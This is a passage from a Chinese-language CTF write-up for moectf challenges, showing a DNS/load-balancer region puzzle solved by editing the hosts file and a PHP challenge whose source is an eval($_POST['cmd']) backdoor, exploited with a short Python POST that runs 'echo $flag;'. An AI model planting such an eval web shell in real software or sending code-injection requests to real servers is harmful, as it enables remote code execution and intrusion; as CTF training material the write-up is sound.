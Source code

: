 + 把系统 区域改成 英国伦敦，同时修改时区，时间等……假装自己来自英国……
+ VPN ……

以上尝试都失败了，就差 找个在英国的朋友了……

好吧，怪我又没审题……

“全局负载均衡器”？可能是部署了多个服务器吧？隐约的记得本科学过 “云计算”，讲阿里云的各种 ECS……百度搜索结果中提到了 GSLB，跟 DNS 有关？不同地区对同一个URL的解析结果有所不同？

[https://www.whatsmydns.net/#A/region.challenge.moectf.cn](https://www.whatsmydns.net/#A/region.challenge.moectf.cn)
![nslookup.png](https://img-blog.csdnimg.cn/20190914194934742.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2lsb3ZlaXR2bQ==,size_16,color_FFFFFF,t_70)
还真的是这样……

然后访问 https://149.28.197.64/ 忽略风险

```
<h1>Global Server Load Balance</h1>
<p>San Jose, US</p>
```

并没有flag

该 host 试一下…… ps. win10改host可能会有权限问题，用管理员权限打开 文本编辑器再修改即可！

刷新网页 https://region.challenge.moectf.cn/ 如果还是原来的内容？？可能还需要 Ctrl + F5进行强制刷新 或者 在cmd执行如下命令排除 DNS 缓存的干扰……

```powershell
> ipconfig /flushdns
```

修改Host后，得到的结果如下：

```
<h1>Orz给大佬递flag(注意这是“英国人”的答案)</h1>
<p>moectf{vPn_n0t_tHe_answer_qaq}</p>
```

flag 拿到了，但我有个小疑问，这是怎么办到的？？还不花钱？

### Amazing_eval

> 听说有很多带黑阔喜欢使用这个函数留后门，你也来试试？
> 题目地址：http://39.108.11.206:10006

直接访问给出了源码，代码审计的题没错了！

```php
 <?php
error_reporting(0);
$flag="xxxxxxxxxxxxxxxxxxxx";
eval($_POST['cmd']);
?> 
```

我天？又是POST请求？Python走起！代码并没有对 cmd 进行过滤，输出 $flag 试试？

```python
import requests
res = requests.post("http://39.108.11.206:10006", 
                    data = {"cmd":"echo $flag;"})
print(res.text)
'''
重要的细节说三遍！
PHP语句后有分号
PHP语句后有;
PHP语句后有分号

不然不会得到 flag 
'''
```
